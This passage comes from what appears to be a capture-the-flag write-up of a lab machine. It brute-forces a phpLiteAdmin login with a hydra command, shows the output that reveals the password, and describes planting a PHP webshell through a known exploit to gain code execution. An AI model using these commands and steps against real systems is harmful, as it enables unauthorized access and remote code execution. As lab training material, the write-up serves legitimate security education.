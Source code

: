     
    
    root@kali# wc -l /usr/share/seclists/Passwords/twitter-banned.txt
    397 /usr/share/seclists/Passwords/twitter-banned.txt
    

I’ll run `hydra` with the following options:

  * `-l 0xdf` \- `hydra` requires a username, even if it won’t use it
  * `-P [password file]` \- a file of passwords to try
  * `https-post-form` \- this is the plugin to use, which takes a string with three parts, `:` separated: 
    * `/db/index.php` \- the path to POST to
    * `password=^PASS^&remember=yes&login=Log+In&proc_login=true` \- the POST data, with `^PASS^` being the thing that will be replaced with words from the wordlist
    * `Incorrect password` \- text on the response that indicates failure to login

It finds the password very quickly:

    
    
    root@kali# hydra 10.10.10.43 -l 0xdf -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-11 06:03:28
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 397 login tries (l:1/p:397), ~25 tries per task
    [DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
    [443][http-post-form] host: 10.10.10.43   login: 0xdf   password: password123
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-11 06:03:36
    

### Enumerate phpLiteAdmin

With the password, I can login:

![image-20200411060847374](https://0xdfimages.gitlab.io/img/image-20200411060847374.png)

There is only one database, `test`, and it has no tables.

### PHP Injection

The exploit `24044.txt` from `searchsploit` describes how to exploit
phpLiteAdmin to get RCE using the following steps:

  1. Create a new database ending with `.php`:

![image-20200411061223961](https://0xdfimages.gitlab.io/img/image-20200411061223961.png)

  1. I’ll click on the new db to switch to it, and create a table with 1 text field with a default value of a basic PHP webshell:

![image-20200411061614183](https://0xdfimages.gitlab.io/img/image-20200411061614183.png)

Note it’s important to use `"` in the PHP, as `'` is being used by the
database to define the entire string:
